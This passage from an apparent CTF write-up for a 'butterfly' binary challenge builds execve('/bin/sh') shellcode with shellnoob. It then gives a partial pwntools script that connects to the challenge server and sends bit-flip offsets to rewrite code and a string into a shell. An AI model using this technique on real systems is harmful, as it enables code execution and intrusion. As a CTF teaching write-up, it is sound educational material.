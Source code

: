 `0x400914` is the location of the greeting message `THOU ART GOD, WHITHER CASTEST THY COSMIC RAY?`

Back with `shellnoob`:

```bash
$ shellnoob --64 --intel -i --to-opcode
asm_to_opcode selected (type "quit" or ^C to end)
>> xor rsi, rsi; mov rax, 59; xor rdx, rdx; mov rdi, 0x400914; syscall
xor rsi, rsi; mov rax, 59; xor rdx, rdx; mov rdi, 0x400914; syscall
~> 4831f648c7c03b0000004831d248c7c7140940000f05
```

I chose to start at `0x40084a` because some bytes correspond:
`0x0040084a      4531f6         xor r14d, r14d`

Now either you go the long way and compute all the bit flips needed by hand or you code something.

# Payload

The script has to compute all the bit flips needed to change a portion of the existing instruction into the shellcode and the first 8 bytes of the greeting strings into `/bin/sh\0`. Once the bit flips for a certain byte are computed, we need to revert the algorithm that derives the address from the input and send a number for each flip needed inside the byte.

```python
#!/usr/bin/env python2

from pwn import *

r = remote('butterfly.pwning.xxx', 9999)
#r = remote('localhost', 9999)

loop_val = '0x20041c6'
# Start the loop
r.sendline(loop_val)

# Generate the payload
start_addr = 0x40084a
shell_addr = 0x400914
shellcode = '4831f648c7c03b0000004831d248c7c7140940000f05'
text      = '4531f664488b042528000000483b44244075264489f0'
shell = ''.join('{:02x}'.format(ord(c)) for c in list('/bin/sh\0'))
greeting = 'THOU ART GOD, WHITHER CASTEST THY COSMIC RAY?'[0:8]
greeting = ''.join('{:02x}'.format(ord(c)) for c in greeting)

# We need to parse it bytes after bytes
chunks_sc = [shellcode[i:i+2] for i in range(0, len(shellcode), 2)]
chunks_tx = [text[i:i+2] for i in range(0, len(text), 2)]

# loop over each byte
for i in range(0,len(chunks_tx)):
    # compute the flips needed
    flips = list('{:08b}'.format(int(chunks_tx[i],16) ^ int(chunks_sc[i], 16)))
    flips.reverse()
    indices = []
    # store the offsets of the flips in a table
    for j in range(0,len(flips)):
        if (flips[j] == '1'):
            indices.append(j)
    # for each flip send a corresponding number
    for n in indices:
        r.sendline('0x{:x}'.format((start_addr + i) * 8 + n))

#Same for the greeting and shell
chunks_sh = [shell[i:i+2] for i in range(0, len(shell), 2)]
chunks_gr = [greeting[i:i+2] for i in range(0, len(greeting), 2)]
```

[fgets]: http://man7.org/linux/man-pages/man3/fgets.3.html
[strtol]: http://man7.org/linux/man-pages/man3/strtol.3.html
[mprotect]: http://man7.org/linux/man-pages/man2/mprotect.2.html
[r2]: http://www.radare.org/r/
[shellnoob]: https://github.com/reyammer/shellnoob